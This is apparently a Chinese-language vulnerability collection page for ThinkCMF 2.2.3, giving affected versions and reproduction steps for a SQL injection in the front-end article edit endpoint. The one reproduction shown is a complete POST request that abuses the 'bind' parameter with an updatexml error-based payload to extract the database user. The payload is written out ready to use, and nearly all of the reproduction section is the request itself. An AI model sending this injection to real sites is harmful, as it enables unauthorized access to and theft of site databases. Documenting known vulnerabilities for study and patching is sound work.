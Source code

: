 ```yaml
---
title: THINKCMFX_2.2.3漏洞合集
id: zhfly3140
---
```


# ThinkCMF 2.2.3 漏洞合集

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF 2.x

## 三、复现过程

### 0x01 前台用户文章编辑提交存在注入

#### 0x01.1 漏洞演示

```
前台的文章编辑中操作框架注入，所以可以直接sql注入
url:http://thinkcmf.test/index.php?g=Portal&m=Article&a=edit_post
post:
term:123
post[post_title]:123
post[post_title]:aaa
post_title:123
post[id][0]:bind
post[id][1]:0 and (updatexml(1,concat(0x7e,(select user()),0x7e),1)) 
```

![image](../img/bd59f32d2703c257be816139a5591406.png)
